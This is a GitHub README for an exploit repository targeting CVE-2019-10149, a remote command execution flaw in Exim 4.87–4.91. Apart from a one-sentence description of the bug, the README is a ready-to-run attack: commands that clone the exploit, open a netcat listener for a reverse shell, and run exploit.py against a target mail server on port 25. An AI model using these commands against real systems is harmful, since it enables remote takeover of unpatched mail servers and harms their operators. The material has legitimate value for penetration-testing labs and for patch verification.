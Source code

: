 # CVE-2019-10149
CVE-2019-10149 : A flaw was found in Exim versions 4.87 to 4.91 (inclusive). Improper validation of recipient address in deliver_message() function in /src/deliver.c may lead to remote command execution.

### Example
```
git clone https://github.com/Diefunction/CVE-2019-10149.git
nc -lvp 9000
python ./CVE-2019-10149/exploit.py --rhost example.com --rport 25 --lhost 10.10.10.100 --lport 9000
```

### About

HTB: https://www.hackthebox.eu/home/users/profile/47396 | https://www.hackthebox.eu/profile/47396 <br />
Twitter: @diefunction <br />
Discord: Diefunction#1337
